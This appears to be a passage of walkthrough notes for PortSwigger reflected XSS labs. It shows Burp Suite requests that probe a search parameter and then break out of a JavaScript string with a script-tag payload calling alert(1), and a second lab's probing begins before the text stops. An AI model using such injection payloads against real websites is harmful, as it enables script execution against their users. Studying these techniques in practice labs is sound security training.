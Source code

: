 ```bash

Go to: HTTP history

GET /?search=123456 HTTP/1.

Send to repeater
Search the response:

123456

Response:

var searchTerms = '123456';

Go to repeater
Enter into search:

123456'check

Like so:

GET /?search=123456'check HTTP/1.1

Search the response:

123456

Response:

var searchTerms = '123456\'check';

form a new get request:

GET /?search=</script><script>alert(1)</script> HTTP/1.1

```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220519180603.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220519180704.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220519180857.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220519180919.png)

### Reflected XSS into a JavaScript string with angle brackets HTML encoded
```bash

# This lab contains a [reflected cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/reflected) vulnerability in the search query tracking functionality where angle brackets are encoded. The reflection occurs inside a JavaScript string. To solve this lab, perform a cross-site scripting attack that breaks out of the JavaScript string and calls the `alert` function.

Enter into the search:

{{check}}

Go to: HTTP history

GET /?search={{check}} HTTP/1.

```